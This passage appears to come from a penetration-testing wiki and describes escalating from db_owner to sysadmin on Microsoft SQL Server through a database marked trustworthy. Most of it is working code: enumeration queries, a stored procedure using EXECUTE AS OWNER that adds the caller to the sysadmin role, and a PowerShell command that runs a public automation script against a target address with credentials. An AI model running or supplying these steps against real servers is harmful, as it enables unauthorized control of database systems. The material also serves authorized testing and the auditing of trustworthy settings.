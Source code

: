 {% tab title="db_owner to sysadmin" %}
If a **regular user** is given the role **`db_owner`** over the **database owned by an admin** user (such as **`sa`**) and that database is configured as **`trustworthy`**, that user can abuse these privileges to **privesc** because **stored procedures** created in there that can **execute** as the owner (**admin**).

### Windows

To enumerate, run the following queries

```sql
# Get owners of databases
SELECT suser_sname(owner_sid) FROM sys.databases

# Find trustworthy databases
SELECT a.name,b.is_trustworthy_on
FROM master..sysdatabases as a
INNER JOIN sys.databases as b
ON a.name=b.name;

# Get roles over the selected database (look for your username as db_owner)
USE <trustworthy_db>
SELECT rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)
```

If you found you are db\_owner of a trustworthy database, you can privesc

```sql
--1. Create a stored procedure to add your user to sysadmin role
USE <trustworthy_db>

CREATE PROCEDURE sp_elevate_me
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember 'USERNAME','sysadmin'

--2. Execute stored procedure to get sysadmin role
USE <trustworthy_db>
EXEC sp_elevate_me

--3. Verify your user is a sysadmin
SELECT is_srvrolemember('sysadmin')
```

Otherwise, we can use [Invoke-SqlServerDbElevateDbOwner](https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-Dbowner.psm1) powershell script to automate the exploit

```powershell
Import-Module .Invoke-SqlServerDbElevateDbOwner.psm1
Invoke-SqlServerDbElevateDbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance 10.2.2.184
```
{% endtab %}
{% endtabs %}
